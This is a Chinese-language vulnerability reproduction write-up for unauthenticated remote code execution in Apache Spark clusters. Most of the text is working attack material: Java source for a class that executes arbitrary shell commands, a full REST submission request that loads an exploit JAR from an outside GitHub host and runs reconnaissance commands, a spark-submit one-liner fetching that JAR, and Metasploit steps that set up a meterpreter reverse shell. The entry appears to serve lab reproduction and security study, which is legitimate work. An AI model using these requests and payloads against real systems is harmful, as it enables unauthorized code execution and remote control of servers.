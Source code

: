 Apache Spark 未授权访问漏洞
===========================

一、漏洞简介
------------

Apache
Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

二、漏洞影响
------------

三、复现过程
------------

### 方法一

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

-   利用REST API
-   利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，

    import java.io.BufferedReader;
    import java.io.InputStreamReader;

    public class Exploit {
      public static void main(String[] args) throws Exception {
        String[] cmds = args[0].split(",");

        for (String cmd : cmds) {
          System.out.println(cmd);
          System.out.println(executeCommand(cmd.trim()));
          System.out.println("==============================================");
        }
      }

      // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
      private static String executeCommand(String command) {
        StringBuilder output = new StringBuilder();

        try {
          Process p = Runtime.getRuntime().exec(command);
          p.waitFor();
          BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

          String line;
          while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
          }
        } catch (Exception e) {
          e.printStackTrace();
        }

        return output.toString();
      }
    }

将其编译成JAR，放在任意一个HTTP或FTP上，如

`https://download.0-sec.org/Web安全/Apache Spark/Apache Spark 未授权访问漏洞.jar`。

#### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

    POST /v1/submissions/create HTTP/1.1
    Host: www.0-sec.org:6066
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Content-Type: application/json
    Connection: close
    Content-Length: 680

    {
      "action": "CreateSubmissionRequest",
      "clientSparkVersion": "2.3.1",
      "appArgs": [
        "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
      ],
      "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
      "environmentVariables": {
        "SPARK_ENV_LOADED": "1"
      },
      "mainClass": "Exploit",
      "sparkProperties": {
        "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
        "spark.driver.supervise": "false",
        "spark.app.name": "Exploit",
        "spark.eventLog.enabled": "true",
        "spark.submit.deployMode": "cluster",
        "spark.master": "spark://your-ip:6066"
      }
    }

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

![1.png](/Users/aresx/Documents/VulWiki/.resource/ApacheSpark未授权访问漏洞/media/rId26.png)

返回的包中有submissionId，然后访问`http://www.0-sec.org:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![2.png](/Users/aresx/Documents/VulWiki/.resource/ApacheSpark未授权访问漏洞/media/rId27.png)

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

#### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

    bin/spark-submit --master spark://www.0-sec.org:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest
api来提交应用；如果发现不是rest服务器，则会降级到使用submission
gateway来提交应用。

查看结果的方式与前面一致。

### 方法二

    msf5> use exploit/linux/http/spark_unauth_rce
    msf5> set payload java/meterpreter/reverse_tcp
    msf5> set rhost 被攻击ip
    msf5> set rport 6066
    msf5> set lhost 攻击ip
    msf5> set lport 4444
    msf5> set srvhost 1攻击ip
    msf5> set srvport 8080
    msf5> exploit

![1.png](/Users/aresx/Documents/VulWiki/.resource/ApacheSpark未授权访问漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/spark/unacc/
